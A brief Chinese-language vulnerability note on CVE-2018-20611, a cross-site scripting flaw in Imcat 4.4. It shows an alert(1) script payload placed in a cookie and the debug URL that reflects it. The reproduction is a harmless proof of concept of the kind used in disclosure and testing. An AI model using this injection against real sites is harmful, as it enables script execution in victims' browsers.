 # CVE-2018-20611 Imcat 4.4 xss

### 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本存在跨站脚本漏洞。远程攻击者可通过向root/tools/adbug/binfo.php?cookie URI发送特制的cookie利用该漏洞注入任意的Web脚本或HTML。

### 二、漏洞影响

imcat 4.4

### 三、复现过程

将cookie的值修改成

`"><script>alert(1)</script>`

![](images/15890717956694.png)

然后访问 `/root/tools/adbug/binfo.php?cookie `

![](images/15890718282467.png)


参考链接

https://github.com/AvaterXXX/CVEs/blob/master/imcat.md